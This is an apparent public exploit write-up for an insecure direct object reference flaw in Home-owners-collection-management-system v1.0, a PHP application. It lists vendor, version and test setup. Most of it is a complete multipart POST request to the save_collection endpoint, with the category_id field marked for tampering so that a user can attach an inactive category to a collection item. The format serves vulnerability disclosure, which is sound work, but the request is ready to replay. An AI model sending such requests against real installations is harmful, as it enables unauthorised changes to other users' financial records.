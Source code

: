 # Exploit Title: Home-owners-collection-management-system v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add a category who is inactive to a collection_item(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Master.php?f=save_collection HTTP/1.1
...

------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="id"

7
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="date_collected"

2023-10-04
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="collected_by"

user2
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="member_id"

1
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[3]"

100
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[4]"

100
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[1]"

200
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[5]"

50
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[2]"

200
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="category_id[2]"

6(CHANGE HERE)
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="total_amount"

200
------WebKitFormBoundaryffgBAyeF5VOyAwiT--
```